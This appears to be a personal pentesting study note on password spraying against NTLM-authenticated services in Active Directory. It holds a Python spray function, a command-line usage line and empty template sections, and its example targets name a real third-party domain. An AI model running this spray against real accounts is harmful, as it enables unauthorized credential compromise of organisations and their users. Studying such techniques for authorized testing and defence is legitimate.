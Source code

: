 Since [[Active Directory]] environments usually detect a lot of authentication attempts, usually password spraying against [[NetNTLM Authenticated Services]] is the best way to proceed.


# 🖊️ Methods

- You can use [[Hydra]] to assist with the password spray.
- You can use a custom script:

```
def password_spray(self, password, url):
    print ("[*] Starting passwords spray attack using the following password: " + password)
    #Reset valid credential counter
    count = 0
    #Iterate through all of the possible usernames
    for user in self.users:
        #Make a request to the website and attempt Windows Authentication
        response = requests.get(url, auth=HttpNtlmAuth(self.fqdn + "\\" + user, password))
        #Read status code of response to determine if authentication was successful
        if (response.status_code == self.HTTP_AUTH_SUCCEED_CODE):
            print ("[+] Valid credential pair found! Username: " + user + " Password: " + password)
            count += 1
            continue
        if (self.verbose):
            if (response.status_code == self.HTTP_AUTH_FAILED_CODE):
                print ("[-] Failed login with Username: " + user)
    print ("[*] Password spray attack completed, " + str(count) + " valid credential pairs found")
```

In order to use this you can run it like this:

`python ntlm_passwordspray.py -u <userfile> -f <fqdn> -p <password> -a <attackurl>`

In the fqdn parameter use the root domain example `google.com` and in the attackurl use `autsite.google.com`


# 📔 Description

- 

##  📗 Action to perform 

1. 


### Properties
---
📆 created   {{26-10-2023}} 19:19
🏷️ tags: #activedirectory #enumeration
---


